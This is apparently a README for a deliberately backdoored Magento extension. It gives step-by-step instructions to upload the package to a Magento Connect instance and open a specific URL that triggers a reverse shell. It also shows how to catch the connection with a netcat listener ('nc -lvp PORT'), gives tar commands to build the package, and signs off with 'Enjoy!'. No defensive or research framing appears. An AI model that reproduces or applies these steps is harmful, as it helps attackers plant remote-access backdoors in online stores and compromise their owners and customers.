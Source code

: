 A simple backdoor'ed Magento package.

Upload the lavalamp_magento_bd.tgz file to a Magento Connect instance and then navigate to <magento host>/index.php/lavalamp/index. This will active the reverse shell. Make sure you listening for the connection using netcat. --> nc -lvp PORT

do the following to create a working .tgz package file:

    cd Backdoor\ Code
    tar -czvf reverse.tgz app package.xml skin
    mv reverse.tgz ~/$user/Desktop

Enjoy!
